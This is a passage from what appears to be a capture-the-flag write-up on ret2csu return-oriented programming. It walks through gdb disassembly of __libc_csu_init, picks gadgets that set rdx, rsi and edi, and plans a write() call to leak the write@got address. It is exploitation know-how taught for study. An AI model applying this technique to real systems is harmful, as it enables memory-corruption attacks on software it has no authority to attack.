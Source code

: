 ```gdb
   0x0000000000400734 <+84>:	jne    0x400720 <__libc_csu_init+64>
   0x0000000000400736 <+86>:	add    rsp,0x8
   0x000000000040073a <+90>:	pop    rbx
   0x000000000040073b <+91>:	pop    rbp
   0x000000000040073c <+92>:	pop    r12
   0x000000000040073e <+94>:	pop    r13
   0x0000000000400740 <+96>:	pop    r14
   0x0000000000400742 <+98>:	pop    r15
   0x0000000000400744 <+100>:	ret    
End of assembler dump.
```

We see that `rdx` is affected here: `0x0000000000400720 <+64>:	mov    rdx,r15`. 

The value of `r15` is moved to `rdx` and we have another gadget available that pops `r15` at: `   0x0000000000400742 <+98>:	pop    r15`.

It is obvious that whatever we put in `pop r15` will be moved to `rdx`. Apart from that we can see that we can also manipulate `rdi` and `rsi` via `r13` and `r14` respectively. Last but not least, we can call whatever there is in `r12` (if we zero out the `rbx`).

Our goal is to call: `write(1, write@got, 0x8)` in order to leak `write@got`.
 That means we need to:

- `pop r12` = `write@got`
- `pop r13` = 1
- `pop r14` = `write@got`
- `pop r15` = 0x8

So, we are going to use these 2 gadgets:

```gdb
Gadget 1:
   0x000000000040073a <+90>:  pop    rbx
   0x000000000040073b <+91>:  pop    rbp
   0x000000000040073c <+92>:  pop    r12
   0x000000000040073e <+94>:  pop    r13
   0x0000000000400740 <+96>:  pop    r14
   0x0000000000400742 <+98>:  pop    r15
   0x0000000000400744 <+100>: ret

Gadget 2:
   0x0000000000400720 <+64>:  mov    rdx,r15
   0x0000000000400723 <+67>:  mov    rsi,r14
   0x0000000000400726 <+70>:  mov    edi,r13d
   0x0000000000400729 <+73>:  call   QWORD PTR [r12+rbx*8]
```

We also need to 0 `rbx`, so that it calls `[r12]` only and insert 1 to `rbp` to pass the comparison here:

```gdb
   0x0000000000400729 <+73>:	call   QWORD PTR [r12+rbx*8]
   0x000000000040072d <+77>:	add    rbx,0x1
   0x0000000000400731 <+81>:	cmp    rbp,rbx
```
